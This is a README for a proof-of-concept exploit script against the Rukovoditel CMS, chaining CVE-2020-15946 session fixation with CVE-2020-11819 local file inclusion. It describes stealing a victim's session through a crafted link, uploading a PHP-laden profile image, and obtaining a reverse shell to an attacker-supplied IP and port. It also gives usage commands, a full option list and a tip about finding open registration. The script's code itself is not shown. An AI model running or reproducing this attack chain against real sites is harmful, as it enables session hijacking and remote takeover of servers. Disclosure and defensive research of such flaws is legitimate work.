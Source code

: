# PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946

# Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. 
With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

# Usage
exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]

Post-authenticate RCE for rukovoditel, script version 1.0
  
optional arguments:
-h, --help            show this help message and exit
-t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/
-u USER, --user USER  Username for authentication
-p PASSWORD, --password PASSWORD Password for authentication
-a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access credentials to the web application
--ip IP_ATTACKER      IP attacker for reverse shell!
--port PORT_ATTACKER  Port for reverse shell connection
--proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080
